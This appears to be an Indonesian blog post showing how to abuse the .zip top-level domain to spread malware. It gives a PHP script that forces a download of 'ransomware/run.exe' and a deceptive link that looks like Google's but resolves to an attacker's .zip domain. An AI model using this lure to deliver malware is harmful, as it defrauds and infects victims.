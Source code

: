 ```yaml
---

layout: post

title: "Exploit Google’s .zip TLD Untuk Menyebarkan Virus dan Malware"

date: 2023-05-18 14:11:00 +0200

category: blogs

---
```

# Exploit Google’s .zip TLD Untuk Menyebarkan Virus dan Malware

Selamat datang! 
Pertama, saya akan membahas tentang domain .zip. Domain .zip adalah salah satu ekstensi domain dari Google Domains.

### Risk
Untuk menggunakan domain ini hanya menggunakan cara URL Format Bypass dengan seolah olah ini adalah URL yang valid.

Misal saya mempunyai sebuah virus yang berakhiran `.exe` saya akan membuat sebuah script PHP atau Python dengan sebagai contoh script :

```php
<?php
if(isset($_GET['true']))
{
$exe = "run.exe";
$dir = "ransomware/";
$file = $dir . $exe;

if (file_exists($file))
    {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename='.basename($file));
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($file));
    ob_clean();
    flush();
    readfile($file);
    exit;
    }
}
?>
```
dan saya deploy misal di domain `lol.zip`.
lalu pada URL saya memakai URL dari Google.com
Contoh:
`https://www.google.com/gmail/inbox@lol.zip`
dan hasil nya akan langsung mendownload file yang saya sudah siapkan di server pada domain `lol.zip`.

### Penutup

Untuk kali ini saya tidak merekomendasikan menggunakan cara ini untuk kejahatan dan lain nya.
Karena ini hanya untuk research dan pembelajaran.


Terima Kasih.
